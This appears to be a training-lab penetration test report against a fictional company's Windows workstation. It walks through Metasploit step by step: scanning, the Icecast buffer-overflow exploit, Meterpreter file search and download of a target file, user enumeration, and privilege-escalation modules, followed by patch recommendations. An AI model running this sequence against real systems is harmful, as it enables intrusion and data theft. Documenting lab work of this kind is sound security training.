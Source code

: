 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

   > **Answer:** searchsploit icecast

   ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

   > **Answer:** msfconsole

   ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

   > **Answer:** search icecast

   ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

   > **Answer:** use 0

   ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

   > **Answer:** set RHOST 192.168.0.20

   ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

   > **Answer:** exploit

   ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

   > **Answer:** search -f *secretfile*.txt

   ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

   > **Answer:** search -f *recipe*.txt

   ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

   > **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

   ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

   > **Verification:**

   ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

  > **Answer:** run post/multi/recon/local_exploit_suggester

  ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

   > **Answer:** run post/windows/gather/enum_logged_on_users

  ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

   > **Answer:** shell

   ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

   > **Answer:** systeminfo

   ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
